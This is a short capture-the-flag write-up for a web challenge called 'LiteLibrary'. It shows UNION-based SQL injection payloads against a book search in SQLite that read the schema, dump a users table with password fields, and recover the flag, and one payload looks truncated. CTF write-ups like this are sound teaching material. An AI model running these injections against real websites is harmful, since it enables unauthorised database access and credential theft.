




# LiteLibrary
> Testing in prod. No worries are long as we are lighte :)

## About the Challenge
We were given a website without the source code, and this website only has 1 functionality which is search book



## How to Solve?
the first vulnerability that comes to my mind is SQL injection. First, I tried UNION-based SQL injection:

```
' UNION SELECT 1,2,3,4,5-- -
```



And then i tried to dump the table structure using this payload

```
' UNION SELECT 1,2,3,(SELECT sql FROM sqlite_schema limit),5-- -
```

There are 2 tables here:

* CREATE TABLE BOOKS (title TEXT, author TEXT, pages TEXT, imageLink TEXT, link TEXT)
* CREATE TABLE USERS (liteId TEXT, liteUsername TEXT, gender TEXT, liteNick TEXT, litePass TEXT, dateCreated TEXT)



And then dump everything using `group_concat()` function and we can get the flag inside `liteNick` columns



```
nite{t00_l1t3_huh_50m30n3_g37_an71_g2av17y_0v3r_h3r3}
```